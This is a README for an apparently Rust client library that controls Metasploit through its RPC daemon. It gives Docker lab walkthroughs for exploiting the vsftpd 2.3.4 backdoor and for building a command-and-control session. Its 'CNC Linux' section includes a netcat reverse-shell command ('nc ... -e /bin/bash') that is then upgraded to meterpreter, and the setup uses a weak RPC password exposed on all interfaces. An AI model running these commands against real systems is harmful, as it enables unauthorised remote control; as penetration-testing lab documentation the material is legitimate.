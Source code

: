 ## MSF Client

A library which talks to msfrpcd process through msgpack. Some examples are provided.

#### Examples

##### VSFTPD Backdoor

To run vsftpd example, you can get the metasploit repo from github:

git clone https://github.com/rapid7/metasploit-framework

Also pull in the vsftpd image:

docker pull penkit/vsftpd

The vsftpd image is at version 2.3.4 which has the smiley backdoor.

The metasploit repo has a docker-compose file which you can use to run metasploit. Please refer to https://github.com/rapid7/metasploit-framework/tree/master/docker which has info on how to run the images. Once the ms container has started, type in

load msgrpc ServerHost=0.0.0.0 ServerPort=55553 User=msf Pass='1234'

in msf in order to start the RPC. 

For vsftpd, you can either integrate it into docker-compose or start it up separately.

sudo docker run --rm -it -p 21:21 penkit/vsftpd:2.3.4 /bin/bash

For metasploit, port 55553 is RPC port which we need to be able to access externally, so you need to have it open. For vsftpd, port 21 is ftp port that metasploit uses to exploit.

On the vsftpd docker image, start up vsftpd:

vsftpd /etc/vsftpd/vsftpd.conf

Now you should be able to put in the IP address of the metasploit docker instance (127.0.0.1:55553) in the example and run it.

##### CNC Linux

Here we are going to start up Metasploit in Listener mode, then we will manually connect to it from the vsftp docker image. You can use any other linux container, as long as it has ability to connect and pass stdin/stdout to shell.

Start up the ms container and vsftpd container like in last example.

Now run the cnc_linux.rs example. You shouldn't need to modify the localhost ip. 

The example program starts a thread that has the sole purpose of listening for incoming connections and telling the main thread what the session id is. That is necessary, since once we start the CNC, we need to manually connect to it from the client. The main thread sets everything up and blocks waiting for session ids. At this point you will need to login to the linux client container:

sudo docker exec -ti <client_container> /bin/bash

Execute the command:

nc <cnc_ip> <cnc_port> -e /bin/bash

The port is usually 4444. When the client connects you should get a normal bash session. From there, the main thread will attempt to upgrade to metepreter session. On successfull upgrade, it will run some commands and exit. At this point you should have two sessions that you can interact with.

The example was taken from:

https://www.hackingtutorials.org/networking/upgrading-netcat-shells-to-meterpreter/
